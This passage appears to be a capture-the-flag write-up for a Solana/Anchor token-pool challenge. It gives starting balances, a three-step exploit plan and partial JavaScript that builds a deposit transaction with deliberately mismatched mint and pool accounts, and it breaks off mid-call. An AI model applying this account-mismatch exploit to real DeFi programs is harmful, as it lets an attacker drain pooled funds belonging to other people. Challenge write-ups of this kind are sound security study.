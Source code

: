 ```bash
Pool balances:
	woEth: 100000000, soEth: 100000000, stEth: 100000000
Player balances:
	woEth: 1000, soEth: 1000, stEth: 1000
```


## Exploit:
- Deposit some woEth tokens for soEthVoucher tokens.
- Withdraw the soEthVoucher tokens for the original soEth tokens.
- Then we could swap the soEth tokens for the woEth tokens, at the end we left more woEth tokens.

```js
async function attack() {
    console.log(accounts);
    // mint accounts
    const woEthMint = await spl_token.getMint(conn, accounts.woEthMint);
    const soEthMint = await spl_token.getMint(conn, accounts.soEthMint);
    const stEthMint = await spl_token.getMint(conn, accounts.stEthMint);
    // console.log(woEthMint);
    // console.log(soEthMint);
    // console.log(stEthMint);

    // pool token accounts
    const woEthPoolToken = await spl_token.getAccount(conn, accounts.woEthPoolAccount);
    const soEthPoolToken = await spl_token.getAccount(conn, accounts.soEthPoolAccount);
    const stEthPoolToken = await spl_token.getAccount(conn, accounts.stEthPoolAccount);
    console.log(`Pool balances:\n\twoEth: ${woEthPoolToken.amount}, soEth: ${soEthPoolToken.amount}, stEth: ${stEthPoolToken.amount}`);

    // player token accounts
    const woEthTokenAccount = await spl_token.getAccount(conn, await spl_token.getAssociatedTokenAddress(accounts.woEthMint, player.publicKey));
    const soEthTokenAccount = await spl_token.getAccount(conn, await spl_token.getAssociatedTokenAddress(accounts.soEthMint, player.publicKey));
    const stEthTokenAccount = await spl_token.getAccount(conn, await spl_token.getAssociatedTokenAddress(accounts.stEthMint, player.publicKey));
    console.log(`Player balances:\n\twoEth: ${woEthTokenAccount.amount}, soEth: ${soEthTokenAccount.amount}, stEth: ${stEthTokenAccount.amount}`);

    // player pool voucher accounts
    const woEthPoolVoucher = await spl_token.getAccount(conn, await spl_token.getAssociatedTokenAddress(accounts.woEthVoucherMint, player.publicKey));
    const soEthPoolVoucher = await spl_token.getAccount(conn, await spl_token.getAssociatedTokenAddress(accounts.soEthVoucherMint, player.publicKey));
    const stEthPoolVoucher = await spl_token.getAccount(conn, await spl_token.getAssociatedTokenAddress(accounts.stEthVoucherMint, player.publicKey));

    // depositing 1000 woETH Tokens to the pool => we get 1000 soEth Tokens
    let amount = new BN(1000);
    const txn = new anchor.web3.Transaction().add(
        program.instruction.deposit(amount,{
            accounts: {
                player: player.publicKey,                                       //checked
                depositor: player.publicKey,                                    //checked
                state: accounts.state,                                          //checked
                depositMint: soEthMint.address,                               //checked 
                pool: accounts.woEthPool,                                       //checked
                poolAccount: woEthPoolToken.address,                          //checked
                voucherMint: accounts.soEthVoucherMint,                         //checked (to get the soEth voucher mint)
                depositorAccount: woEthTokenAccount.address,                  //checked
```